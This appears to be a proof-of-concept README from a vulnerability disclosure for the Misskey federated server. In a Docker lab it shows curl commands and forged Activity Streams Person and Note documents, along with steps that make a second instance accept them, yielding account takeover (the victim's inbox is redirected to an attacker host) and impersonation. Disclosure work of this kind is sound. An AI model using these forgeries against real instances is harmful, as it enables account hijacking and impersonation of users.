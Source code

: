 ## Misskey PoC

This PoC demonstrates a takeover attack and an impersonation attack against accounts on a remote Misskey instance.

### Environment

The PoC involves two Misskey instances and an HTTP server:

- `victim.poc.example`: A (open-registration) Misskey instance to which a supposed threat actor is going to upload fake Activity Streams documents:
  - `@attacker`: An account registered by the threat actor
  - `@takeoverVictim`: A target account of the takeover attack
  - `@impersonationVictim`: A target account of the impersonation attack
- `observer.poc.example`: A (open-registration) Misskey instance to fetch the fake objects
  - `@attacker`: An account registered by the threat actor
- `attacker.poc.example`: A server controlled by the threat actor to host intermediary Activity Streams documents (this is a simple static HTML server)

The Docker Compose project `docker-compose.yml` sets up these servers for you. Change the working directory to this directory and run the following to start the servers:

```sh
docker-compose up -d
```

### Prepare fake documents

First, execute the following commands to get the user IDs of the victim accounts:

```sh
curl -K ../assets/curlrc -fH 'Accept: application/activity+json' 'https://victim.poc.example/@takeoverVictim' | jq -r '.id' | sed 's!.*/!!' > takeoverVictim-id.txt
curl -K ../assets/curlrc -fH 'Accept: application/activity+json' 'https://victim.poc.example/@impersonationVictim' | jq -r '.id' | sed 's!.*/!!' > impersonationVictim-id.txt
```

Next, upload the following fake object files to `@attacker@victim.poc.example`'s Drive and take note of the resulting Drive URLs. Before uploading the files, you need to replace the placeholder actor URIs with the actual ones (e.g. `sed "s/deadbeef1/$(cat takeoverVictim-id.txt)/g; s/deadbeef2/$(cat impersonationVictim-id.txt)/g"`).

```json
{
  "@context": [
    "https://www.w3.org/ns/activitystreams",
    "https://w3id.org/security/v1"
  ],
  "id": "https://victim.poc.example/users/deadbeef1",
  "type": "Person",
  "following": "https://victim.poc.example/users/deadbeef1/following",
  "followers": "https://victim.poc.example/users/deadbeef1/followers",
  "inbox": "https://attacker.poc.example/inbox",
  "outbox": "https://victim.poc.example/users/deadbeef1/outbox",
  "preferredUsername": "takeoverVictim",
  "name": "TAKEN OVER",
  "summary": "THE ACCOUNT HAS BEEN TAKEN OVER BY AN ATTACKER",
  "url": "https://victim.poc.example/@takeoverVictim",
  "published": "2015-02-10T15:04:55Z",
  "publicKey": {
    "id": "https://victim.poc.example/users/deadbeef1#main-key",
    "owner": "https://victim.poc.example/users/deadbeef1",
    "publicKeyPem": "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAkFqLkysr6pPyXj+O6ykx\nPMLhOe59JxZF1q2dDMWu9nnhHBxkfc0/bmCSrzjRoJrV+THbju1SZ9BXERABzKjy\nA+s561gE/9aPie22VuyCK//RcuIYhiQJ3HlCKa9w4+hLdXq7VwZ0OaZS5M4pLYls\nnD5UkWeSIMixsZS27ywZWUGY7taouuKKVGBPR6o8XcPz20VHZ5LWaGXiFvEO16Ch\n338fAqmcSOCigEL9dS9AguoJnx01028s7BqXvMb+GMer3V+W3uyNzLzHn9uXDiKe\nJ2a/lCRCGaENHXt30y0Zoq/Z4HgLYsyySKPHgNi+/xuKaFMsBGaMhK73lNd5G8TJ\ncwIDAQAB\n-----END PUBLIC KEY-----\n"
  }
}
```

```json
{
  "@context": "https://www.w3.org/ns/activitystreams",
  "id": "https://victim.poc.example/random-placeholder-to-avoid-accidental-id-collision/1",
  "type": "Note",
  "attributedTo": "https://victim.poc.example/users/deadbeef2",
  "content": "THE NOTE WAS MADE BY AN ATTACKER IMPERSONATING @impersonationVictim",
  "published": "2015-02-10T15:04:55Z",
  "to": "https://www.w3.org/ns/activitystreams#Public",
  "cc": "https://victim.poc.example/users/deadbeef2/followers"
}
```

In the subsequent steps, we assume that the documents have been uploaded to the following URLs:

- Fake Person: `https://victim.poc.example/files/deadbeef-badb-adba-dbad-aaaaaaaaaaaa`
- Fake Note: `https://victim.poc.example/files/deadbeef-badb-adba-dbad-000000000000`

`attacker.poc.example` in the Docker Compose project hosts the following intermediary Activity Streams documents, which contain the URIs of the fake Person and fake Note respectively. You need to edit these files to replace the placeholder URIs with the actual ones before performing the PoC.

- `https://attacker.poc.example/objects/notes/falsified-victim-mention.jsonld` ([`../assets/www/attacker.poc.example/objects/notes/falsified-victim-mention.jsonld`])
- `https://attacker.poc.example/objects/notes/fake-note-reply.jsonld` ([`../assets/www/attacker.poc.example/objects/notes/fake-note-reply.jsonld`])

### Fetch the remote objects

Now, we are all set. Let's fetch the fake objects to finally demonstrate the exploit.

Log in as `@attacker@observer.poc.example`, open the Lookup (照会) menu item and enter `https://attacker.poc.example/objects/notes/falsified-victim-mention.jsonld` to the input, which should display a Note mentioning `@takeoverVictim@victim.poc.example`. Follow the mentioned hyperlink, and you should see a user profile saying in CAPITAL LETTERS that the account has been taken over by an attacker, if the takeover attack was successful.

The takeover attack won't work if `observer.poc.example` has fetched the victim actor before. On the other hand, the impersonation attack is always applicable regardless of the Misskey instance's prior knowledge of the victim account. We'll demonstrate that in the following steps.

Open the Lookup menu item and enter `https://victim.poc.example/@impersonationVictim`, which should display the legitimate profile of `@impersonationVictim@victim.poc.example`. The instance should now be aware of the victim account.

Next, open the Lookup menu again and enter `https://attacker.poc.example/objects/notes/fake-note-reply.jsonld` this time. You should see a note replying to another note, which should be displayed as if it's from `@impersonationVictim@victim.poc.example` and be saying in CAPITAL LETTERS that it was made by an attacker impersonating the victim, if the attack was successful.
